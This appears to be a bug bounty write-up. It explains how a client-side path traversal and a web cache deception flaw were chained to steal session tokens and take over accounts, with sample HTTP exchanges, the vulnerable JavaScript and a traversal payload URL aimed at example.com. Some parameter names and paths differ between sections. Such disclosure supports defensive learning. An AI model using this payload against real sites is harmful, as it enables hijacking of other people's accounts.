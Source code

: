 ```yaml
---
title: "Cache Deception + CSPT: Turning Non Impactful Findings into Account Takeover"
keywords: "cache deception, cspt, client-side path traversal, account takeover, bug bounty, web security, vulnerability chaining, security research, chain"
date: 2025-08-18
lastmod: 2025-08-18
categories: [Security, Bug-Bounty, Web-Security]
tags: [cspt, cache-deception, account-takeover, web-security, bug-bounty, client-side-path-traversal, vulnerability-chaining]
toc: true
math: false
mermaid: true
---
```


Recently, while auditing the main application of a private bug bounty program, I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Berson's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>

```mermaid
sequenceDiagram
    participant U as USER
    participant C as BROWSER
    participant A as API

    U->>C: Visits<br/>https://example.com/profile?userId=104
    
    C->>A: GET /v1/users/info/104<br/>X-Auth-Token: [token]
    Note over C,A: Authenticated request
    
    A->>C: HTTP/1.1 200 OK<br/>Content-Type: application/json<br/>{"username":"Juan","...}
    Note over A,C: USER data returned
    
    Note over C: Display: "Welcome Juan"
```

<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. So, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>

```mermaid
sequenceDiagram
    participant A as ATTACKER
    participant C as VICTIM'S BROWSER
    participant CA as CDN
    participant API as API

    A->>C: "Click Here"
    Note over A,C: https://example.com/profile?id=<br/>../../token.css
    
    C->>CA: GET /v1/token.css<br/>X-Auth-Token: ...
    Note over C,CA: Authenticated request <br/>to cacheable endpoint
    
    CA->>API: GET /v1/token.css<br/>X-Auth-Token: ...
    
    API->>CA: {"token":"..."}
    Note over API,CA: Sensitive token data
    
    CA->>C: {"token":"..."}
    Note over CA,C: Cached sensitive token
    
    A->>CA: GET /v1/token.css
    Note over A,CA: Direct cache access<br/>(no auth required)
    
    CA->>A: {"token":"..."}
    Note over CA,A: Attacker retrieves victim's cached token
```

<br>

## **Conclusion**

I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.